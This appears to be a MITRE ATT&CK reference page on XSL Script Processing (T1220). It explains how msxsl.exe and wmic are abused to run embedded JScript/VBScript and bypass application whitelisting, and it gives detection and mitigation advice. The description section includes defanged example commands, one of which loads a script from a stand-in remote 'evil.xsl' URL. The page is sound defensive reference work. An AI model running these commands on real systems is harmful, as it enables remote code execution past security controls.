 <div class="container-fluid">
 <h1>
  XSL Script Processing
 </h1>
 <div class="row">
  <div class="col-md-8 description-body">
   <p>
    Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages.
    <span class="scite-citeref-number" data-reference="Microsoft XSLT Script Mar 2017" id="scite-ref-1-a">
     <sup>
      <a aria-describedby="qtip-0" data-hasqtip="0" href="https://docs.microsoft.com/dotnet/standard/data/xml/xslt-stylesheet-scripting-using-msxsl-script" target="_blank">
       [1]
      </a>
     </sup>
    </span>
   </p>
   <p>
    Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application whitelisting defenses. Similar to
    <a href="https://attack.mitre.org/techniques/T1127">
     Trusted Developer Utilities
    </a>
    , the Microsoft common line transformation utility binary (msxsl.exe)
    <span class="scite-citeref-number" data-reference="Microsoft msxsl.exe" id="scite-ref-2-a">
     <sup>
      <a aria-describedby="qtip-1" data-hasqtip="1" href="https://www.microsoft.com/download/details.aspx?id=21714" target="_blank">
       [2]
      </a>
     </sup>
    </span>
    can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files.
    <span class="scite-citeref-number" data-reference="Penetration Testing Lab MSXSL July 2017" id="scite-ref-3-a">
     <sup>
      <a aria-describedby="qtip-2" data-hasqtip="2" href="https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/" target="_blank">
       [3]
      </a>
     </sup>
    </span>
    Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files.
    <span class="scite-citeref-number" data-reference="Reaqta MSXSL Spearphishing MAR 2018" id="scite-ref-4-a">
     <sup>
      <a aria-describedby="qtip-3" data-hasqtip="3" href="https://reaqta.com/2018/03/spear-phishing-campaign-leveraging-msxsl/" target="_blank">
       [4]
      </a>
     </sup>
    </span>
   </p>
   <p>
    Command-line example:
    <span class="scite-citeref-number" data-reference="Penetration Testing Lab MSXSL July 2017" id="scite-ref-3-a">
     <sup>
      <a aria-describedby="qtip-2" data-hasqtip="2" href="https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/" target="_blank">
       [3]
      </a>
     </sup>
    </span>
   </p>
   <ul>
    <li>
     <code>
      msxsl.exe customers[.]xml script[.]xsl
     </code>
    </li>
   </ul>
   <p>
    Another variation of this technique, dubbed "Squiblytwo", involves using
    <a href="https://attack.mitre.org/techniques/T1047">
     Windows Management Instrumentation
    </a>
    to invoke JScript or VBScript within an XSL file.
    <span class="scite-citeref-number" data-reference="subTee WMIC XSL APR 2018" id="scite-ref-5-a">
     <sup>
      <a aria-describedby="qtip-4" data-hasqtip="4" href="https://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" target="_blank">
       [5]
      </a>
     </sup>
    </span>
    This technique can also execute local/remote scripts and, similar to its
    <a href="https://attack.mitre.org/techniques/T1117">
     Regsvr32
    </a>
    / "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool.
   </p>
   <p>
    Command-line examples:
    <span class="scite-citeref-number" data-reference="subTee WMIC XSL APR 2018" id="scite-ref-5-a">
     <sup>
      <a aria-describedby="qtip-4" data-hasqtip="4" href="https://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" target="_blank">
       [5]
      </a>
     </sup>
    </span>
   </p>
   <ul>
    <li>
     Local File:
     <code>
      wmic process list /FORMAT:evil[.]xsl
     </code>
    </li>
    <li>
     Remote File:
     <code>
      wmic os get /FORMAT:"https[:]//example[.]com/evil[.]xsl"
     </code>
    </li>
   </ul>
  </div>
  <div class="col-md-4">
   <div class="card">
    <div class="card-body">
     <div class="card-data">
      <span class="h5 card-title">
       ID
      </span>
      : T1220
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Tactic
      </span>
      : Defense Evasion, Execution
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Platform:
      </span>
      Windows
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       System Requirements:
      </span>
      Microsoft Core XML Services (MSXML) or access to wmic.exe
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Permissions Required:
      </span>
      User
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Data Sources:
      </span>
      Process monitoring, Process command-line parameters, Process use of network, DLL monitoring
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Supports Remote:
      </span>
      No
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Defense Bypassed:
      </span>
      Anti-virus, Application whitelisting, Digital Certificate Validation
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Contributors:
      </span>
      Casey Smith; Praetorian
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Version
      </span>
      : 1.0
     </div>
    </div>
   </div>
  </div>
 </div>
 <h2 class="pt-3" id="examples">
  Examples
 </h2>
 <table class="table table-bordered table-light mt-2">
  <thead>
   <tr>
    <th scope="col">
     Name
    </th>
    <th scope="col">
     Description
    </th>
   </tr>
  </thead>
  <tbody class="bg-white">
   <tr>
    <td>
     <a href="https://attack.mitre.org/software/S0373">
      Astaroth
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/software/S0373">
       Astaroth
      </a>
      executes embedded JScript or VBScript in an XSL stylesheet located on a remote domain.
      <span class="scite-citeref-number" data-reference="Cybereason Astaroth Feb 2019" id="scite-ref-6-a" onclick="scrollToRef('scite-6')">
       <sup>
        <a aria-describedby="qtip-5" data-hasqtip="5" href="https://www.cybereason.com/blog/information-stealing-malware-targeting-brazil-full-research" target="_blank">
         [6]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0080">
      Cobalt Group
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0080">
       Cobalt Group
      </a>
      used msxsl.exe to bypass AppLocker and to invoke Jscript code from an XSL file.
      <span class="scite-citeref-number" data-reference="Talos Cobalt Group July 2018" id="scite-ref-7-a" onclick="scrollToRef('scite-7')">
       <sup>
        <a aria-describedby="qtip-6" data-hasqtip="6" href="https://blog.talosintelligence.com/2018/07/multiple-cobalt-personality-disorder.html" target="_blank">
         [7]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
  </tbody>
 </table>
 <h2 class="pt-3" id="mitigation">
  Mitigation
 </h2>
 <p>
  <a href="https://attack.mitre.org/techniques/T1047">
   Windows Management Instrumentation
  </a>
  and/or msxsl.exe may or may not be used within a given environment. Disabling WMI may cause system instability and should be evaluated to assess the impact to a network. If msxsl.exe is unnecessary, then block its execution to prevent abuse by adversaries.
 </p>
 <h2 class="pt-3" id="detection">
  Detection
 </h2>
 <p>
  Use process monitoring to monitor the execution and arguments of msxsl.exe and wmic.exe. Compare recent invocations of these utilities with prior history of known good arguments and loaded files to determine anomalous and potentially adversarial activity (ex: URL command line arguments, creation of external network connections, loading of DLLs associated with scripting).
  <span class="scite-citeref-number" data-reference="subTee WMIC XSL APR 2018" id="scite-ref-5-a">
   <sup>
    <a aria-describedby="qtip-4" data-hasqtip="4" href="https://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" target="_blank">
     [5]
    </a>
   </sup>
  </span>
  <span class="scite-citeref-number" data-reference="Twitter SquiblyTwo Detection APR 2018" id="scite-ref-8-a">
   <sup>
    <a aria-describedby="qtip-7" data-hasqtip="7" href="https://twitter.com/dez_/status/986614411711442944" target="_blank">
     [8]
    </a>
   </sup>
  </span>
  Command arguments used before and after the script invocation may also be useful in determining the origin and purpose of the payload being loaded.
 </p>
 <p>
  The presence of msxsl.exe or other utilities that enable proxy execution that are typically used for development, debugging, and reverse engineering on a system that is not used for these purposes may be suspicious.
 </p>
 <h2 class="pt-3" id="references">
  References
 </h2>
 <div class="row">
  <div class="col">
   <ol>
    <li>
     <span class="scite-citation" id="scite-1">
      <span class="scite-citation-text">
       <a class="external text" href="https://docs.microsoft.com/dotnet/standard/data/xml/xslt-stylesheet-scripting-using-msxsl-script" name="scite-1" rel="nofollow" target="_blank">
        Wenzel, M. et al. (2017, March 30). XSLT Stylesheet Scripting Using
        <msxsl:script>
         . Retrieved July 3, 2018.
        </msxsl:script>
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-2">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.microsoft.com/download/details.aspx?id=21714" name="scite-2" rel="nofollow" target="_blank">
        Microsoft. (n.d.). Command Line Transformation Utility (msxsl.exe). Retrieved July 3, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-3">
      <span class="scite-citation-text">
       <a class="external text" href="https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/" name="scite-3" rel="nofollow" target="_blank">
        netbiosX. (2017, July 6). AppLocker Bypass – MSXSL. Retrieved July 3, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-4">
      <span class="scite-citation-text">
       <a class="external text" href="https://reaqta.com/2018/03/spear-phishing-campaign-leveraging-msxsl/" name="scite-4" rel="nofollow" target="_blank">
        Admin. (2018, March 2). Spear-phishing campaign leveraging on MSXSL. Retrieved July 3, 2018.
       </a>
      </span>
     </span>
    </li>
   </ol>
  </div>
  <div class="col">
   <ol start="5.0">
    <li>
     <span class="scite-citation" id="scite-5">
      <span class="scite-citation-text">
       <a class="external text" href="https://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" name="scite-5" rel="nofollow" target="_blank">
        Smith, C. (2018, April 17). WMIC.EXE Whitelisting Bypass - Hacking with Style, Stylesheets. Retrieved July 3, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-6">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.cybereason.com/blog/information-stealing-malware-targeting-brazil-full-research" name="scite-6" rel="nofollow" target="_blank">
        Salem, E. (2019, February 13). ASTAROTH MALWARE USES LEGITIMATE OS AND ANTIVIRUS PROCESSES TO STEAL PASSWORDS AND PERSONAL DATA. Retrieved April 17, 2019.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-7">
      <span class="scite-citation-text">
       <a class="external text" href="https://blog.talosintelligence.com/2018/07/multiple-cobalt-personality-disorder.html" name="scite-7" rel="nofollow" target="_blank">
        Svajcer, V. (2018, July 31). Multiple Cobalt Personality Disorder. Retrieved September 5, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-8">
      <span class="scite-citation-text">
       <a class="external text" href="https://twitter.com/dez_/status/986614411711442944" name="scite-8" rel="nofollow" target="_blank">
        Desimone, J. (2018, April 18). Status Update. Retrieved July 3, 2018.
       </a>
      </span>
     </span>
    </li>
   </ol>
  </div>
 </div>
</div>
